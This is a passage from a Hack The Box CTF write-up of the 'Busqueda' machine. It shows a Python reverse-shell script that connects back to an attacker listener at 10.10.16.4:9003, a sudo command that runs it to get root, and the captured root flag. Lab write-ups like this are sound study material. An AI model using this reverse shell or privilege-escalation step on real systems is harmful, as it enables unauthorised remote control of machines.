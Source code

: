 ```python
#!/usr/bin/python3
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.4",9003)) # Attacker IP netcat listener
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```

<br>

### Getting a shell
Running the malicious script, grants a root shell.
```shell
svc@busqueda:/var/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

<br>

### Root.txt
```shell
# cd /root
cd /root
# ls
ls
ecosystem.config.js  root.txt  scripts	snap
# cat root.txt
cat root.txt
26b22f48e4ff13580114a8d9fa9fc07d
```

That's how I pwned Busqueda.

<br>

### Achievement:
https://www.hackthebox.com/achievement/machine/743510/537